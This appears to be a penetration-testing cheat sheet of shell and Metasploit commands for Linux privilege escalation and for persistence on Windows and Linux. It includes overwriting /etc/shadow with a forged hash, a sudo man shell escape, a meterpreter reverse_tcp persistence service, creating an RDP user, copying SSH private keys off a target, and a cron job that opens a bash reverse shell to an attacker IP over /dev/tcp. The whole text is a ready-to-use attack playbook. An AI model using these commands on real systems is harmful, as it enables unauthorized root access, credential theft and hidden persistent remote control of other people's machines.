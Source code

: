 **Linux Privilege Escalation**



```
# Writable files
find / -not -type l -perm -o+w

# e.g. of /etc/shadow with write permissions
openssl passwd -1 -salt abc password123
vim /etc/shadow # Paste the hashed password
su

# SETUID - SUDO privileges
find / -user root -perm -4000 -exec ls -ldb {} \;
find / -perm -u=s -type f 2>/dev/null

sudo -l

# e.g. User can run 'man' with SUDO Privileges
sudo man ls
	!/bin/bash
```

**Win Persistence**



```
# msfcosole - Admin Meterpreter
search platform:windows persistence
use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
set LPORT <PORT>
set SESSION 1
run

# Meterpreter - Enable RDP
run getgui -e -u <NEWUSER> -p <PW>
```

**Linux Persistence**



```
ls -lah ~/.ssh/
cat ~/.ssh/id_rsa
cat ~/.ssh/authorized_keys
cat ~/.ssh/known_hosts

# Download the 'id_rsa' file
scp <USER>@<TARGET_IP>:~/.ssh/id_rsa .
chmod 400 id_rsa

ssh -i id_rsa <USER>@<TARGET_IP>

# Cron Jobs
cat /etc/cron*
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'" > cron
crontab -i cron
crontab -l

# Setup a 'nc' listener and wait for the Bash Reverse Shell
nc -nvlp <PORT>
```
